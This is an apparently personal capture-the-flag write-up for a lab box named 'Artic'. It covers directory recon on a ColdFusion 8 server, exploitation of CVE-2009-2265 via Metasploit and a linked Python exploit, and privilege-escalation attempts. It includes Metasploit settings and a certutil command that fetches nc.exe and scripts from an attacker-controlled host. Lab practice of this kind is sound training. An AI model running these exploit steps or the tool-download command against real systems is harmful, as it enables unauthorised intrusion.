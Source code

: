 
Name: Artic
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I then tried Sherlock from my see as wes-ng did not work.
